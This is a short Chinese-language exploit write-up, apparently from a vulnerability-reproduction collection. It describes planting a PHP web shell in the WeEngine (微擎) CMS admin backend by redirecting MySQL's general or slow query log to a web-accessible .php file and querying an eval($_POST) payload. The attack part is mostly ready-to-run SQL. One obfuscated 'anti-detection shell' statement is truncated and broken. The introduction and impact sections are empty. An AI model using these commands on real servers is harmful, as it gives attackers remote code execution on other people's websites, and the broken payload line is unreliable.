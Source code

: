 ```yaml
---
title: "微擎 后台绕过禁用函数写shell"
id: zhfly3365
---
```


# 微擎cms 后台绕过禁用函数写shell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1.站点设置里面打开调试

![image](../img/264695a6e5450ad1459f48cec68fbed7.png)

### 2.执行语句

select into被禁止

![image](../img/d3a6ed8595f7e2441f9894fc0ae1b2f2.png)

### 3.利用日志文件写shell

```
show variables like '%general%';  #查看配置

set global general_log = on;  #开启general log模式

set global general_log_file = ‘/var/www/html/1.php’;   #设置日志目录为shell地址 `select ‘<?php eval($_POST[cmd]);?>’  #写入shell` 
```

![image](../img/88bbf31db09c427ade53cc1e9a2cae0f.png)

### 4.SQL查询免杀shell的语句

```
SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$ 
```

### 补充:来自土司@GuoKerSb的分享

在无法修改general_log_file指向的地址且网站用户量多时刻处于查询的状态，我们还可以通过启动slow_query_log（慢查询日志，默认关闭）来写shell

```
set global slow_query_log=1;
set global slow_query_log_file='/var/www/html/1.php';
select '<?php eval($_POST[cmd]);?>' or sleep(11); 
```

## 四、参考链接

> https://www.vulnbug.com/Exploit/Microcomputer-CMS-bypasses-disabled-Intooutfile-and-safe-dog.html